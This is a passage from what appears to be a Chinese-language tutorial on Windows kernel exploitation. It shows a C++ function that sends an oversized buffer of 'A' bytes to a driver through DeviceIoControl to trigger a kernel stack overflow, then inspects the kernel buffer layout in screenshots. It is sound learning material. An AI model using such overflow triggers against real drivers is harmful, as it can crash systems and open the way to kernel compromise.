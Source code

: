 ```bash
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    unsigned int size = 0x80;
    RtlFillMemory(stackspace, size, 'A');
    DWORD info = 0;

    DeviceIoControl(hDevice, ioctl, 
        stackspace, size, 
        NULL, 0, 
        &info, NULL);

    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```

如果引发溢出的话，看看 kernel 中的`v5`变量的布局

[![](assets/1706090591-a1e76bb4dee919a4609ca6c1fad29e3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130453-c77a050e-b8e3-1.png)

[![](assets/1706090591-a980dad718822eb913700b310704a6ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130503-cd04b870-b8e3-1.png)

这里的 kernelBuffer 就相当于用户模式下的“栈帧”

同时可以看到我们程序的内存

[![](assets/1706090591-bf264d65d4ec585aca7bb28bc9fb5e35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130512-d24d119c-b8e3-1.png)
